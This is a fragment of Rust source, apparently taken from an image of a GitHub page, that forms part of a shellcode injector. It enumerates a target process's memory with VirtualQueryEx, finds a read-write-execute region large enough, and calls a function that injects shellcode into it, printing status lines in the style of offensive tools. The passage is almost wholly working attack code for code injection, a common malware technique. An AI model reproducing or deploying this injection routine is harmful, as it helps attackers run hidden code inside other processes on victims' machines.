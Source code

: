 ````rust

            let mut address: *mut winapi::ctypes::c_void = ptr::null_mut();
            let mut success = false;

            loop {
                let mut mbi: MEMORY_BASIC_INFORMATION = std::mem::zeroed();

                let result = VirtualQueryEx(
                    h_process,
                    address,
                    &mut mbi,
                    std::mem::size_of::<MEMORY_BASIC_INFORMATION>(),
                );

                if result == 0 {
                    break; // No more memory regions to query
                }

                if mbi.Protect == winapi::um::winnt::PAGE_EXECUTE_READWRITE {
                    println!(
                        "[+] Found PAGE_EXECUTE_READWRITE memory region at {:p}",
                        mbi.BaseAddress
                    );

                    if mbi.RegionSize >= 317 {
                        inject_shellcode_into_rwx_region(h_process, mbi.BaseAddress)?;
                        success = true;
                        break;
                    } else {
                        println!(
                            "[-] Memory region too small ({} bytes), skipping",
                            mbi.RegionSize
                        );
                    }
                }

                address = (mbi.BaseAddress as usize + mbi.RegionSize) as *mut _;
            }

            CloseHandle(h_process);

            if success {
                break;
            }
        }
    }

    Ok(())
}
````
